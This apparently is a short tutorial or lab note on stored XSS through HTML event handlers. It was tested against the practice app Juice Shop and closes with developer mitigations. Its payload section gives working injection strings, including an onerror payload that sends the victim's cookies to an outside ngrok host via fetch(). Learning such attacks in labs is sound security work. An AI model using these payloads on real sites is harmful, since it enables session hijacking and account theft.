 # Stored XSS via `Event Handlers` (`onmouseover`, `onclick`, `onfocus`)

They’re JavaScript actions that fire when something happens on the page, like:
- `onmouseover`	: When mouse hovers over an element
- `onclick`	: When a user clicks the element
- `onfocus`	When a form field is clicked/focused
- `onerror`	: When an image fails to load

> - HTML event handlers (like onclick) can execute JavaScript directly.
> - This technique works even when tags like <script> are blocked.

## Sample Payloads
**Inject into an input like Name or Comment**:
```js
<img src=x onerror="alert('XSS')">
```
Or interaction by clicking `click me`:
```js
<a href="x" onclick="alert('Hacked by Cybernerddd')">Click me</a>
```
```js
<input onfocus=alert(1) autofocus>
```
To steal cookies
```js
<img src=x onerror="fetch('https://your-ngrok.ngrok-server?c='+document.cookie)">
```

## Real case used
Juice Shop's search box allowed XSS via stored results.
```js
<a href="...">Click here</a>
```
So I injected
```js
<a href="#" onmouseover="alert('Juice Hacked')">Look me</a>
```

## Developers should:
> - Escape dangerous characters (<, >, ", ')
> - Sanitize input server-side before storing
> - Use Content Security Policy (CSP) to restrict script execution
